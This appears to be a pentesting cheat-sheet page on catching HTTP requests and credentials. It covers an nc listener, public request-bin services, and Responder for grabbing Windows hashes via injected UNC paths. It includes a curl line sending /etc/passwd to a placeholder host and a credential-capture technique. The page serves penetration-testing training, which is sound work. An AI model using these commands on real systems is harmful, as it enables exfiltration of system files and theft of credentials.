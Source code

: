 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is network accessible, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

Otherwise, we may use online public solutions.
</div><div>

For instance, we can use API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/) <small>(HTTP 🌍)</small>
* [postbin](https://www.toptal.com/developers/postbin/) <small>(HTTP 🌍)</small>
* [ngrok](https://ngrok.com/) <small>(HTTP 🌍 and TCP ⭐, account required 🪦)</small>
* [requestinspector](https://requestinspector.com/) <small>(HTTP 🌍)</small>
* ...

```ps
$ curl http://XXX/xxxxxx -F "data=@/etc/passwd"
```
</div></div>

<hr class="sep-both">

## Additional tools

<div class="row row-cols-lg-2"><div>

#### Responder

[![server_side_attacks](../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

You can use [responder](https://github.com/lgandx/Responder) <small>(5.0k ⭐)</small> to catch Windows authentication requests allowing us to grab hashes and passwords.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab the credentials used to connect to the share.

```ps
$ sudo responder -i IP -I tun0
```

In the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div><div>
</div></div>